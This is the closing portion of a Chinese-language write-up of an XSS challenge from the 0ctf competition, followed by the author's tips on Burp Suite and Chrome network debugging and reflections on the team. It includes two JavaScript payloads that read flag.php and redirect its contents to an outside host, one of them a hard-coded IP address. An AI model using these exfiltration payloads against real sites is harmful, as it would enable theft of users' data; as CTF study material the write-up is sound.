 ```html
  </body>
</html>
```

伪协议解码

```Js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://router.vip/flag.php', false);
xhr.send();
if (xhr.status == 200) {
  location='https://12345609861router.vip/1234/?result='+xhr.responseText;
}
```



然后就能得到flag： `flag{th1s_is_fr0m_a_re4l_cas3}`

[WP](https://ctftime.org/writeup/5956)





### 其他的收获

1. 如果发现jquery用不了，写原生的js又太蛋疼，可以加载一个jquery进来，继续干。当然，前提那个页面是你可控的。

   ```html
   <script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
   <script type="text/javascript">
   $.get("https://router.vip/flag.php",function(data){
   //alert(data);
   	location.href="http://119.29.135.206:23333/"+escape(data);
   });
   </script>
   ```

   ​

2. 在调试网络请求的时候，发现一款chrome有一个更细微的网络监控

   https://segmentfault.com/q/1010000000364871

   ![net-internals](https://moxiaoxi.info/img/post/0ctf/net-internals.png)

3. 这里学到了一个burp suite的小技巧

   原来burpsuite可以用来生成表单

   ![burp](https://moxiaoxi.info/img/post/0ctf/burp.png)

   ![0ctfoscf](https://moxiaoxi.info/img/post/0ctf/0ctfoscf.png)

   生成ajax格式的（简直是我这种弱渣js选手的救星）

   ![ajaxburp](https://moxiaoxi.info/img/post/0ctf/ajaxburp.png)

4. 赛后务必学习WP，务必复现WP，务必总结文档！！收获很多。



### 废话

这次0ctf，第一次正式以blue-lotus参赛，队友们都很拼。第二晚，我们Web组一起怼simpleXSS弄到了将近4点，老司机大佬们3点半的时候，还在继续怼各种二进制，韦博看那个OTP整整看了两天，晚上睡觉还一直记着那道题..实在话，比赛或许最重要的不是最后的成绩，而是有一群队友肯陪你疯～

回顾整场比赛，真是深深觉得自己的js功底太差了，得好好补补。越学越觉得自己懂得东西真的太少太少，还需要学习很多很多套路orz。

